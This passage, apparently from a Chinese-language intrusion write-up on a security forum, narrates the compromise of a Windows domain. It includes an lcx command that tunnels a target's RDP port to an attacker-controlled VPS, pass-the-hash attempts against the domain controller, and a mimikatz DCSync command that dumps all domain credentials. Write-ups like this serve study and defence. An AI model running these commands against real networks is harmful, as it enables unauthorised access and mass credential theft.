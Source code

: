 lcx设置代理  
目标机器上  
`shell C:\Windows\system32\lcx.exe -slave 公网ip 7212 127.0.0.1 3389`  
vps上  
`lcx -listen 7212 5555`

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ebb0bfc16d02112e90f3282a8c4fa3369e880894.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ebb0bfc16d02112e90f3282a8c4fa3369e880894.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-08fef31f49fd0170f5b226775c2e2b6df7802b3f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-08fef31f49fd0170f5b226775c2e2b6df7802b3f.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d2f51120e19eb8d7dee1b808a29c40bdf730fae7.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d2f51120e19eb8d7dee1b808a29c40bdf730fae7.png)

在cs上执行`shell tscon 2`  
他说没有权限。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-78f7162e2950a0de59fcae8f367361ff661ed610.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-78f7162e2950a0de59fcae8f367361ff661ed610.png)

在目标机器执行的时候提示错误的密码,猜想大概是会话断联的原因。如果STATE是active应该是没问题的。

拿下DC
----

将所有拿下的主机的hash全部dump出来,整合后发现有Administrator的账户hash,且是域中账户,而在域中Administrator是作为域管账户的。  
445端口开启  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4d9765a149145de85162ed5dbfad96fe3e18a6fb.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4d9765a149145de85162ed5dbfad96fe3e18a6fb.png)

尝试pth  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-caad50bf6ea210e9c3b3ab65a41a1572578f7c3f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-caad50bf6ea210e9c3b3ab65a41a1572578f7c3f.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-182092bb9b7c650aecf4b02a428f53cdb239dad5.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-182092bb9b7c650aecf4b02a428f53cdb239dad5.png)  
失败了,如果不能pth这个hash将索然无味,又不能拿到明文  
这里搞了很久,然后又回去信息收集。  
搞来搞去搞了很久,还是那么7、8台主机,最后也是没办法,由于抓到了很多密码,把所有Administrator用户的hash全部pass了一遍,终于拿下了域控

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c8b7a3d7507a1a5c0ff1ff54f260cfa8f70e662d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c8b7a3d7507a1a5c0ff1ff54f260cfa8f70e662d.png)

导出ntds,抓下密码,这里使用mimikatz  
`lsadump::dcsync /domain:xxx /all /csv command`

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a74a8183daee88b9ef89a399d3e8621eece76758.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a74a8183daee88b9ef89a399d3e8621eece76758.png)
